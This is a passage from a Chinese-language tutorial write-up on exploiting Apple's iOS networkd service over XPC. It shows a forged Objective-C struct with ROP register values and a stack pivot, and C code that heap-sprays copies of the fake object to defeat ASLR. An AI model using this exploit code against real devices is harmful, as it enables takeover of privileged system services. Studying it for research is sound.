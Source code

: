 ```
NSLog(@"hs->pc = 0x%08x", (uint32_t)(CoreFoundation_base+0xd3842));
```
&emsp;&emsp;最终伪造的Objective-C的结构体构造如下：
```
struct heap_spray {
    void* fake_objc_class_ptr;
    uint32_t r10;
    uint32_t r4;
    uint32_t r5;
    uint32_t r6;
    uint32_t r7;
    uint32_t pc;
    uint8_t pad1[0x3c];
    uint32_t stack_pivot;
    struct fake_objc_class_t {
        char pad[0x8];
        void* cache_buckets_ptr;
        uint32_t cache_bucket_mask;
    } fake_objc_class;
    struct fake_cache_bucket_t {
        void* cached_sel;
        void* cached_function;
    } fake_cache_bucket;
    char command[1024];
};
```

### 0x04 堆喷(Heap Spray)
&emsp;&emsp;虽然可以利用一个伪造的Objective-C对象来控制networkd。但是需要将这个对象保存在networkd的内存空间中才行，并且因为ASLR（地址随机化）的原因，就算能把伪造的对象传输过去，也很难计算出这个对象在内存中的具体位置。那么应该怎么做呢？方法就是堆喷(Heap Spray)。虽然ASLR意味着每次启动服务，program image，library，堆和栈等都是随机。但实际上这个随机并不是完全的随机，只是在某个地址范围内的随机罢了。因此可以利用堆喷在内存中喷出一部分空间(尽可能的大，为了能覆盖到随机地址的范围)，然后在里面填充n个fake Object就可以了。

![image](http://img2.ph.126.net/-gF4OhTK8ucMJEAKB5duFw==/1160239854102349379.jpg)

&emsp;&emsp;堆喷的代码如下：
```
void* heap_spray_target_addr = (void*)0x1fec000;
 
struct heap_spray* hs = mmap(heap_spray_target_addr, 0x1000, 3, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
memset(hs, 0x00, 0x1000);
 
size_t heap_spray_pages = 0x2000;
size_t heap_spray_bytes = heap_spray_pages * 0x1000;
char* heap_spray_copies = malloc(heap_spray_bytes);
 
for (int i = 0; i < heap_spray_pages; i++){
    memcpy(heap_spray_copies+(i*0x1000), hs, 0x1000);
}
 
xpc_connection_t client = xpc_connection_create_mach_service("com.apple.networkd", NULL, XPC_CONNECTION_MACH_SERVICE_PRIVILEGED);
 
xpc_connection_set_event_handler(client, ^void(xpc_object_t response) {
    xpc_type_t t = xpc_get_type(response);
    if (t == XPC_TYPE_ERROR){
        printf("err: %s\n", xpc_dictionary_get_string(response, XPC_ERROR_KEY_DESCRIPTION));
    }
    printf("received an event\n");
    });
 
 
xpc_connection_resume(client);
```